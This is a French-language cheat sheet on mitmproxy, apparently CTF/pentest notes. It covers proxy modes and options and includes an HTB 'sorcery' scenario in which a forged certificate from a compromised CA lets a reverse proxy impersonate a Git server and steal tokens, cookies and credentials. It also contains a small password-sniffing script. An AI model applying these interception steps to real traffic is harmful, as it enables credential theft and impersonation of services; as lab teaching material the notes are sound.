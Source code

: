 # MITPROXY

***

### <mark style="color:red;">🧩 Qu’est-ce que mitmproxy ?</mark>

* **mitmproxy** est un proxy interactif en Python.
* Permet :
  * Interception & modification des requêtes/réponses HTTP(S).
  * Proxy inverse (_reverse proxy_) pour se placer devant une appli (utile avec un certificat forgé).
  * Analyse et sauvegarde de trafic (ex: pour rejouer ou analyser offline).
  * Scripts d’automatisation en Python.

***

### <mark style="color:red;">🔐 Modes principaux</mark>

#### 1. Proxy classique (interception navigateur/app)

```bash
mitmproxy -p 8080
```

➡️ Configure ton navigateur/app à utiliser `127.0.0.1:8080` comme proxy.

#### 2. Transparent proxy (redirection réseau via iptables)

```bash
mitmproxy --mode transparent -p 8080
```

➡️ Tout le trafic est capturé, même sans configuration proxy côté client.

#### 3. Reverse proxy (ton cas dans le CTF)

```bash
mitmproxy --mode reverse:https://git.sorcery.htb \
          --certs match.sorcery.htb.pem \
          --save-stream-file traffic.raw \
          -k -p 443
```

➡️ Fonctionne comme un **reverse proxy TLS** :

* `match.sorcery.htb.pem` est ton **certificat frauduleux signé par la CA compromise**.
* Tu interposes ton proxy sur `443` pour que la victime pense parler à `git.sorcery.htb`.

***

### <mark style="color:red;">🛠 Options importantes</mark>

* `--mode reverse:<URL>` : proxy inverse vers la vraie cible.
* `--certs <domain.pem>` : charger un certificat personnalisé.
* `--save-stream-file traffic.raw` : sauvegarde brute du trafic intercepté.
* `-k` : ignorer la vérification de certificat côté client.
* `-p <port>` : port d’écoute du proxy.
* `-s <script.py>` : lancer un script Python d’automatisation.

***

### <mark style="color:red;">📂 Utilisation typique en pentest</mark>

#### 1. Interception HTTPS classique

* Installer le **certificat mitmproxy** côté client.
*   Lancer :

    ```bash
    mitmproxy -p 8080
    ```
* Observer requêtes/réponses en direct (`mitmweb` pour interface web).

***

#### 2. MITM avec certificat volé / forgé

Exemple CTF :

1. Tu compromises une CA → tu signes `match.sorcery.htb.pem`.
2.  Tu lances un reverse proxy :

    ```bash
    mitmproxy --mode reverse:https://git.sorcery.htb \
              --certs match.sorcery.htb.pem \
              -p 443
    ```
3. Les clients font confiance car ton certificat est valide.
4. Tu interceptes et peux **voler des tokens JWT, cookies, credentials Git**.

***

#### 3. Automatisation avec script Python

Exemple `inject.py` :

```python
from mitmproxy import http

def response(flow: http.HTTPFlow) -> None:
    if "password" in flow.response.text:
        print("[+] Password found:", flow.response.text)
```

Lancer avec :

```bash
mitmproxy -s inject.py -p 8080
```

***

### <mark style="color:red;">🔎 Cas d’usage offensifs en CTF/Pentest</mark>

* **Intercept Git over HTTPS** : dump credentials Basic Auth ou tokens OAuth.
* **Modifier des réponses API** pour contourner restrictions (auth bypass).
* **Injecter payloads XSS/SQLi** dans des requêtes envoyées par le client.
* **Rejouer un trafic sensible** avec `mitmdump -nr traffic.raw`.

***
